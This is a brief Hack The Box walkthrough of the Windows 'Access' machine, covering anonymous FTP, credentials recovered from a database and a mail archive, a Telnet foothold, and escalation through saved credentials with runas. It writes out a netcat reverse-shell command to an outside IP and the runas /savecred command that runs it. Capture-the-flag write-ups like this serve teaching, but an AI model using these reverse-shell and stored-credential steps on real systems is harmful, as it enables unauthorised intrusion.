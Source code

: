 ```yaml
---
title: "Access Walkthrough(Hack The Box)"
date: 2025-03-20
draft: true
description: "a description"
tags: ["Easy", "Windows", "Hack The Box", "Hacking", "Active Directory", "Walkthrough"]
---
```

## Reconnaissance #Windows 
- We got straight away Webserver on port 80 and Telnet, FTP on the nmap scan.
- ![[Pasted image 20241216220450.png]]
- Apparently anon login allowed in FTP
- Let's try that and the web page mentions LON-MC6 which leads to MS09-042 a vulnerability in Telnet
- Anyway when I try to login in FTP it worked but after that I can't access any directories it's simply giving timeouts
## Enumeration
- There was a e-mail file and database file from the db file there was the password for mail zip file
- Within the mail file a password for Telnet was there
## Foothold
- I got the initial foot in using telnet 
- Then got the user flag
- ![[Pasted image 20241216231714.png]]
## Privilege Escalation
- Using `cmdkey /list` will show the available and stored creds.
- We can use runas for running as something if appropriate constraints are valid
- Here in this case we got saved creds so first lets transfer nc.exe to the machine
- Then use this command to save to bat file
```
echo c:\users\security\nc.exe -e cmd.exe 10.10.14.12 6001 > shell.bat
```
- And execute it with runas command with saved creds
```
runas /user:administrator /savecred c:\users\security\shell.bat
```
- Then we got Administrator access in our nc listener
- We got root access
- ![[Pasted image 20241216233210.png]]
